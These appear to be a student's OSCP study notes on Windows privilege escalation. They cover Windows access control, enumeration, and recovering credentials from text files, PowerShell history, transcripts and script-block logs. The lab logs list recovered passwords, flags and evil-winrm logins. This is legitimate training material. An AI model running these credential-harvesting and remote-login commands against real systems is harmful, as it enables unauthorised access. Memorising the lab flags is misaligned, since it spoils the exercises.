








# Module 17: Windows Privilege Escalation

## Tags
#OSCP #Module17 #WindowsPrivesc #PrivilegeEscalation #SID #AccessToken #UAC #MIC #IntegrityLevel #Enumeration #WinPEAS #PowerUp #ServiceBinaryHijacking #DLLHijacking #UnquotedServicePath #ScheduledTasks #KernelExploit #SeImpersonatePrivilege #SigmaPotato #JuicyPotato #NamedPipes #Mimikatz #icacls #PSReadline #PowerShellTranscription #WMIC #Windows

---

## **Why This Module Matters**

Getting a shell is only half the battle. Most initial footholds on Windows land you as an unprivileged user -- you can't read other users' files, you can't run Mimikatz, you can't touch sensitive configuration. Privilege escalation is how you go from "a shell" to "the machine."

This module covers the full Windows privesc toolkit: understanding how Windows actually controls privilege (so you know what you're attacking), manually enumerating a target to find vectors, and then four concrete attack classes: sensitive information, service binary hijacking, DLL hijacking, unquoted service paths, scheduled tasks, kernel exploits, and SeImpersonatePrivilege abuse.

The enumeration section matters as much as the exploits. Experienced pentesters know that most Windows privesc succeeds not through a kernel zero-day but through a misconfigured service, a password in a text file, or a stale PowerShell transcript that nobody cleared. Learn the enumeration methodology cold.

---

## 17.1. Enumerating Windows

### 17.1.1. Understanding Windows Privileges and Access Control Mechanisms

Windows has four interlocking systems that control who can do what. You need to understand all four to make sense of what you're attacking.

#### 1. Security Identifiers (SIDs)

Every principal (user, group, computer) gets a unique SID. Windows uses ONLY the SID for access control -- usernames are just for display. The SID format:

```
S-R-X-Y

S     = literal "S"
R     = revision (always 1)
X     = identifier authority (5 = NT Authority, the common case for users/groups)
Y     = sub-authorities: domain identifier + RID (Relative Identifier)
```

Example: `S-1-5-21-1336799502-1441772794-948155058-1001`
- Authority: NT Authority (5)
- Domain: `21-1336799502-1441772794-948155058` (this machine's local domain)
- RID: 1001 -- second local user created (RID starts at 1000 for standard users)

**Well-known SIDs** (RID under 1000, refer to built-in principals):

| SID | Principal |
|---|---|
| S-1-0-0 | Nobody |
| S-1-1-0 | Everyone |
| S-1-5-11 | Authenticated Users |
| S-1-5-18 | Local System (NT AUTHORITY\SYSTEM) |
| S-1-5-`domain`-500 | Built-in Administrator |

SIDs for local accounts/groups are generated by the Local Security Authority (LSA). For domain accounts, they're generated on a Domain Controller. A SID never changes after creation.

#### 2. Access Tokens

When a user authenticates, Windows generates an **access token** and assigns it to that session. Every process and thread the user starts gets this token. The token contains:
- User's SID
- SIDs of all groups the user is in
- List of privileges (SeDebugPrivilege, SeShutdownPrivilege, etc.)
- Integrity level (see below)

Two token types:
- **Primary token**: assigned to a process; defines what the process itself can do
- **Impersonation token**: a thread can temporarily adopt a *different* security context. The thread interacts with objects as if it were the impersonated user, not the process owner. This is how services authenticate clients, and it's also what SeImpersonatePrivilege exploits.

> 🔍 **Worth remembering generally:** `token::elevate` in Mimikatz acquires a SYSTEM *impersonation* token, not a primary token. On Windows Server 2022, SAM registry access checks the primary process token, so a SYSTEM impersonation token isn't sufficient for `lsadump::sam`. That's why the schtask workaround in [[Password Attacks#16.3.2. Passing NTLM|Module 16]] was needed.

#### 3. Mandatory Integrity Control (MIC)

On top of SID-based access control, Windows enforces **integrity levels**. Every process and object has an integrity level. Lower-integrity processes cannot modify higher-integrity objects, even if the ACL says they have permission.

Five levels, in order:

| Level | Who uses it |
|---|---|
| **System** | LSASS, Winlogon, other trusted system processes |
| **High** | Elevated admin processes (after UAC prompt) |
| **Medium** | Standard users and un-elevated admins (the default) |
| **Low** | Sandboxed processes (browsers in some configs) |
| **Untrusted** | Rarely used |



Check integrity levels:
```powershell
whoami /groups              # shows current user's integrity level
icacls <file>               # shows required integrity on a file/object
# Use Process Explorer to see per-process integrity level
```

> 🔍 **Worth remembering generally:** even if a user is a member of the Administrators group, their processes default to Medium integrity. To run at High integrity (and do things like write to system files), they need to go through a UAC prompt. This is why Mimikatz fails from a non-elevated shell even as a local admin.

#### 4. User Account Control (UAC)

UAC is the mechanism that enforces the "even admins run restricted by default" behaviour. When an admin user logs in, Windows generates **two tokens**:
1. **Filtered admin token** (standard user-like, Medium integrity) -- used for everything by default
2. **Full admin token** (High integrity) -- only activated when the user explicitly accepts a UAC prompt



> 🔍 **Worth remembering generally:** UAC is not a security boundary between users -- it's a self-protection mechanism for admins to avoid accidentally running things at full privilege. It can be bypassed by various techniques (UAC bypass exploits). The goal of a UAC bypass is to get from Medium to High integrity without triggering the prompt.

**Lab status: ✅ Completed** (Q1-Q2 pure-recall):

| Question | Answer |
|---|---|
| What is the RID of the first standard user? | **1000** -- RIDs start at 1000 for standard principals; the example in Listing 2 shows RID 1001 is the second local user, so the first is 1000 |
| Answer with true or false: An access token is generated when a user is created and is immutable. | **False** -- a token is generated when a user *authenticates* (logs on), not when the account is created; and a new token is generated for each logon session, so it changes per login |

#### Tags: #SID #AccessToken #UAC #MIC #IntegrityLevel #Windows #Module17

---

### 17.1.2. Situational Awareness

Before attempting any privesc, enumerate everything. The goal is a clear picture of the machine: who's on it, what's running, what's reachable, and what's installed. Skipping this step is how you miss the plaintext password in a text file.

**Seven things to always grab:**

```
1. Username and hostname
2. Group memberships of current user
3. All users and groups on the system
4. OS version and architecture
5. Network information (interfaces, routes, connections)
6. Installed applications
7. Running processes
```

#### Commands

```cmd
REM Username and hostname
whoami
whoami /groups           REM Group memberships + integrity level + SIDs
whoami /priv             REM Assigned privileges (SeDebugPrivilege etc.)

REM OS, version, architecture
systeminfo               REM Full system info including hotfixes

REM Network
ipconfig /all            REM All interfaces, IPs, DNS, DHCP status
route print              REM Routing table (look for other networks)
netstat -ano             REM Active connections: -a all, -n no DNS, -o show PID
```

```powershell
# Users and groups
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember Administrators
Get-LocalGroupMember "Remote Desktop Users"
Get-LocalGroupMember "Remote Management Users"
net user <username>                          # Full detail on one user

# Installed apps (32-bit and 64-bit registries)
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
# Also check: C:\Program Files, C:\Program Files (x86), C:\Users\<user>\Downloads

# Running processes
Get-Process

# Running services (use RDP/interactive logon -- Get-CimInstance fails as non-admin over WinRM/bind shell)
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

> 🔧 **Technique:** `Get-CimInstance` and `Get-Service` return "permission denied" for non-admin users when connecting via WinRM or a bind shell (network logon). Switch to RDP (interactive logon) to enumerate services as a non-admin user.

> 🔍 **Worth remembering generally:** hostname context matters. `CLIENTWK220` → probably a workstation, lower security. `WEB01` or `MSSQL01` → server, higher value but often more locked down. `DC01` → domain controller, highest value.

**What to look for from `whoami /groups`:**
- Any custom groups with "admin" in the name
- `BUILTIN\Remote Desktop Users` → can RDP in
- `BUILTIN\Remote Management Users` → can use WinRM/evil-winrm
- `BUILTIN\Backup Operators` → can read ANY file (even without ACL permission)

**What to look for from user listing:**
- Accounts with "admin" in the name (likely privileged accounts of regular users)
- BackupAdmin/BackupUsers → backup solutions have extensive filesystem permissions
- Disabled Administrator account → note it, doesn't mean other admins aren't present

**What to look for from `netstat -ano`:**
- Local-only ports (127.0.0.1) → services you can only reach from the machine itself
- Port 3306 (MySQL), 1433 (MSSQL), 5432 (Postgres) → may have weak credentials
- Multiple active RDP sessions → other users connected, Mimikatz after privesc could get their creds

> 📸 Screenshot: `whoami /groups` output showing group memberships and current integrity level
> 📸 Screenshot: `Get-LocalGroupMember Administrators` output showing all local admins
> 📸 Screenshot: `netstat -ano` showing all listening ports and their PIDs

**Lab status: ✅ Completed**

**VM #1 (CLIENTWK220, bind shell port 4444):**
- Remote Management Users (besides steve): **daveadmin**
- Installed app flag (hidden in `(default)` value of fake `flag` registry key under `HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\flag`): **`OS{c3bd7c52b252cd6b3a6a0c19f6c722c2}`**
- Key finding: flag had no `DisplayName` field; `| select displayname` would have missed it entirely -- always dump all properties
- Notable apps found: FileZilla 3.63.1 (DLL hijack target), KeePass 2.51.1, XAMPP 7.4.29 (service binary hijack target)

**VM #2 (CLIENTWK221, RDP as mac/IAmTheGOATSysAdmin!):**
- Other Administrators besides offsec and Administrator: **Admin**, cloudbase-init, **roy**
- Non-standard process: `NonStandardProcess.exe` at `C:\Users\mac\AppData\Roaming\SuperCompany\`
- Flag in that directory: **`OS{858962b1402052c68475c4339458ccd1}`**

#### Tags: #Enumeration #WinPEAS #situationalAwareness #whoami #systeminfo #netstat #Module17

---

### 17.1.3. Hidden in Plain View

Users store passwords in text files more than you'd think. Before attempting any technical privesc, spend a few minutes searching the filesystem for credentials. This works surprisingly often and requires zero exploits.

**Key insight:** every time you gain access as a new user, restart the search from scratch. The cyclical nature of a pentest means new user = new permissions = new files accessible. What dave couldn't read, steve can. What steve couldn't read, backupadmin can.

#### Searching for Sensitive Files

```powershell
# KeePass databases
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Config files (XAMPP, Apache, any app)
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

# Documents in user home directories
Get-ChildItem -Path C:\Users\<user>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Broad credential search across the whole drive (slow)
Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.config,*.xml -File -Recurse -ErrorAction SilentlyContinue
```

> 🔍 **Worth remembering generally:** `-ErrorAction SilentlyContinue` is essential -- without it, access denied errors on system directories flood the output and obscure the results you care about.

**High-value targets to check:**
- `C:\xampp\passwords.txt` -- XAMPP ships with a default passwords file (check if modified from defaults)
- `C:\xampp\mysql\bin\my.ini` -- MySQL config, often contains plaintext passwords
- `C:\Users\<user>\Desktop\*.txt` -- people leave notes on their desktop
- `C:\Users\<user>\AppData\` -- application configs, browser-saved credentials
- `C:\Users\Public\` -- shared across all users, often overlooked

**The chain in the CLIENTWK220 example:**
```
dave (bind shell)
  → asdf.txt on Desktop: steve's password securityIsNotAnOption++++++
  → (log in as steve via RDP)
steve
  → C:\xampp\mysql\bin\my.ini (no access as dave): MySQL password admin123admin123!
  → "backupadmin Windows password for backup job" comment in the file
  → (runas backupadmin from GUI)
backupadmin (local admin)
```

```powershell
# Using credentials in Runas (requires GUI access -- RDP session)
runas /user:backupadmin cmd
# Enter password at prompt

# Without GUI: WinRM (if user is in Remote Management Users)
evil-winrm -i <target-ip> -u <username> -p "<password>"
# Or: RDP if user is in Remote Desktop Users
# Or: schtask with /ru /rp (seen in Module 16 for non-interactive execution)
```

> 🔧 **Technique:** `runas` requires a GUI to enter the password interactively -- the password prompt doesn't accept input in a bind shell, WinRM, or non-interactive session. If you don't have RDP, check if the target user can connect via WinRM or RDP instead. If neither, schtasks `/ru <user> /rp <password>` runs a command as that user non-interactively.

> 🔍 **Worth remembering generally:** passwords in config files are often reused everywhere: MySQL, Windows account, FTP credentials, web app login. When you find a password in a file, try it against every account and service you know about before moving on.

> 📸 Screenshot: `Get-ChildItem` finding asdf.txt on dave's desktop and the `cat` output revealing steve's password
> 📸 Screenshot: `type C:\xampp\mysql\bin\my.ini` showing the plaintext MySQL password and the backupadmin comment

**Lab status: ✅ Completed (VM #1 and VM #2)**

**VM #1 (CLIENTWK220, bind shell port 4444):**
- dave's Desktop → `asdf.txt`: meeting notes containing steve's password `securityIsNotAnOption++++++`
- evil-winrm as steve → `C:\xampp\mysql\bin\my.ini`: comment says "backupadmin Windows password for backup job", password `admin123admin123!`
- backupadmin NOT in Remote Management Users or Remote Desktop Users → WinRM and RDP both blocked
- Workaround: schtasks `/ru backupadmin /rp "admin123admin123!"` from steve's WinRM session to run as backupadmin non-interactively, output redirected to `C:\Users\steve\flag_out.txt`
- Flag: **`OS{b67353ae86bde2f8d1844c7288fa58af}`**

- RDP as steve → `C:\Users\steve\Contacts\logins.txt`: web login creds for `https://myjobsucks.fr33lancers.com`, password: **`thisIsWhatYouAreLookingFor`**

**VM #2 (CLIENTWK221, RDP as mac / IAmTheGOATSysAdmin!):**
- `Get-ChildItem -Path C:\Users\ -Include *.ini,...` → `C:\Users\Public\Documents\install.ini` (376 bytes)
- File comment: `# They don't know anything about computers!!` — then a base64-encoded UTF-16LE blob
- Decoded with `[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(...))`:
  ```json
  {
    "boolean": true,
    "admin": false,
    "user": {
      "name": "richmond",
      "pass": "GothicLifeStyle1337!"
    }
  }
  ```
- `runas /user:richmond cmd` → prompted for password → new cmd window as `clientwk221\richmond`
- `whoami` confirmed: `clientwk221\richmond`
- Flag: **`OS{d34310dc18bf3ccbb9ee6736d28e4dfc}`** at `C:\Users\richmond\Desktop\flag.txt`

> 🔍 **Worth remembering generally:** encoded content (base64 UTF-16LE) in a world-readable Public file is a classic Windows "hidden in plain view" pattern. The `[System.Text.Encoding]::Unicode` decoder handles the null-byte padding that trips up UTF-8 decoders.

> 📸 Screenshot: `type C:\Users\Public\Documents\install.ini` showing the comment and base64 blob
> 📸 Screenshot: decoded JSON output revealing richmond's credentials
> 📸 Screenshot: `whoami` as richmond + `type` of flag.txt

#### Tags: #SensitiveFiles #PasswordInPlaintext #Base64 #FileSearch #GetChildItem #Runas #UTF16LE #Module17

---

### 17.1.4. Information Goldmine PowerShell

As enterprises added PowerShell logging to detect attacks, they accidentally created a treasure trove for attackers. Two mechanisms to know:

**PowerShell Transcription** ("over-the-shoulder transcription") -- records everything displayed in a PowerShell window: commands typed, output shown. Saved to a file. Location is configurable -- check home directories, `C:\Users\Public\`, or network shares.

**Script Block Logging** -- records the full content of every script block executed, even deobfuscated/decoded. Events go to the Windows Event Log (`Microsoft-Windows-PowerShell/Operational`, Event ID 4104). Visible in Event Viewer.

Both exist because defenders want audit trails. For attackers, they contain admin commands with plaintext passwords.

#### PSReadline History

PowerShell v5+ includes PSReadline, which saves command history to a file independently of the session. `Clear-History` clears the in-session history (`Get-History`) but does NOT clear the PSReadline file. Most admins don't know this.

```powershell
# Check current session history (usually empty if admin used Clear-History)
Get-History

# Get the PSReadline history file path
(Get-PSReadlineOption).HistorySavePath
# Default: C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Read it
type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# OR shorthand for current user:
type (Get-PSReadlineOption).HistorySavePath
```

**What to look for in PSReadline history:**
- `Register-SecretVault` / `Set-Secret` -- KeePass/secret vault with plaintext password in the command
- `ConvertTo-SecureString "plaintext"` -- admin building a credential object; the plaintext shows in the history
- `Enter-PSSession -ComputerName ... -Credential $cred` -- WinRM remote session (check for associated `$cred` creation nearby)
- `Start-Transcript -Path "..."` -- tells you exactly where a transcript file is saved

#### Transcript Files

```powershell
# If PSReadline history shows Start-Transcript, read the transcript file
type C:\Users\Public\Transcripts\transcript01.txt
# Contains: all commands AND output from that session, in order
```

A transcript started just before credentials are entered will contain those credentials in plaintext. The example from CLIENTWK220:

```powershell
# Commands visible in the transcript (not in history):
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

These three lines give you the username (`daveadmin`) and password (`qwertqwertqwert123!!`) in plaintext. Connect with:

```bash
# evil-winrm -- more reliable than Enter-PSSession from a bind shell
# Escape ! in bash with \!
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

> 🔧 **Technique:** creating a `PSSession` from within a bind shell can produce unexpected behavior (commands execute but return no output). Use `evil-winrm` from Kali instead -- it provides a reliable interactive shell via WinRM without the bind shell interference.

> 🔍 **Worth remembering generally:** to check if Script Block Logging is enabled, open Event Viewer on the target → Applications and Services Logs → Microsoft → Windows → PowerShell → Operational. Event ID 4104 contains the logged script blocks. This requires GUI access (RDP) or elevated access to query the event log remotely.



> 📸 Screenshot: PSReadline history file contents showing the `Set-Secret` command with plaintext KeePass password
> 📸 Screenshot: Transcript file showing the `ConvertTo-SecureString` and `New-Object PSCredential` commands
> 📸 Screenshot: evil-winrm connected as daveadmin after extracting creds from transcript

**Lab status: ✅ Completed (VM #1 and VM #2)**

**VM #1 (CLIENTWK220, bind shell port 4444):**
- `nc 192.168.158.220 4444` → shell as `dave`
- PSReadline history: `type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
  - Found: `Set-Secret -Name "Server02 Admin PW" -Secret "paperEarMonitor33@" -Vault pwmanager` (KeePass password in plaintext)
  - Found: `Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"` (transcript path)
  - `Clear-History` was run — but PSReadline file survived it (key lesson)
- Transcript: `type C:\Users\Public\Transcripts\transcript01.txt`
  - Contains: `$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force`
  - Contains: `$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)`
- Credentials recovered: **daveadmin / qwertqwertqwert123!!**
- `evil-winrm -i 192.168.158.220 -u daveadmin -p 'qwertqwertqwert123!!'` → shell as daveadmin
- Flag: **`OS{24476ccf8a8b02789587efeaaff171ec}`** at `C:\Users\daveadmin\Desktop\flag.txt`

**Script Block Logging (RDP as daveadmin → Event Viewer):**
- Path: Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
- Filter: Event ID 4104 → 8 Verbose + 7 Warning events (most are Windows SDIAG diagnostic scripts, noise)
- PowerShell query to cut through the noise:
  ```powershell
  Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104} | Select-Object -ExpandProperty Message | Select-String -Pattern "password|Password|SecureString|Credential|secret|Secret"
  ```
- Hit: an `iwr` command with a Basic auth header — password visible in plaintext before encoding:
  ```powershell
  iwr -uri http://192.168.50.120 -Headers @{ Authorization = "Basic " +
  [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("dave:ThereIsNoSecretCowLevel1337"))
  }
  ```
- **Password recovered: `ThereIsNoSecretCowLevel1337`** (dave's credentials sent to an internal server)

> 🔍 **Worth remembering generally:** `Clear-History` only clears `Get-History` (the in-session buffer). The PSReadline file (`ConsoleHost_history.txt`) is a separate persistent store that survives `Clear-History`, logout, and reboots. Most sysadmins don't know this distinction. Always check both.

> 🔍 **Worth remembering generally:** transcription started before a `Enter-PSSession` with `$cred` captures the full credential construction — `ConvertTo-SecureString` with the plaintext string is right there in the file. The transcript records what was typed AND what was output, in order.

> 🔍 **Worth remembering generally:** Script Block Logging captures source code *before* execution — so even when a script tries to hide a password by base64-encoding it (e.g. for a Basic auth header), the plaintext string appears verbatim in Event ID 4104. Encoding after the fact doesn't hide it from the log.

> 📸 Screenshot: PSReadline history file showing `Set-Secret` with KeePass password and `Start-Transcript` path
> 📸 Screenshot: transcript file showing `ConvertTo-SecureString "qwertqwertqwert123!!"` and PSCredential lines
> 📸 Screenshot: evil-winrm shell as daveadmin + flag.txt contents
> 📸 Screenshot: Event Viewer filtered to ID 4104, PowerShell query output showing `dave:ThereIsNoSecretCowLevel1337` in the iwr Basic auth block

**VM #2 (CLIENTWK221, RDP as mac / IAmTheGOATSysAdmin!):**
- `type (Get-PSReadlineOption).HistorySavePath` → flag was sitting directly in the PSReadline history as a previously-typed command
- Someone had pasted/typed the flag string directly into the PowerShell prompt at some point — PSReadline logged it like any other input
- Flag: **`OS{17c49c88efb309356ac36871cf778957}`**

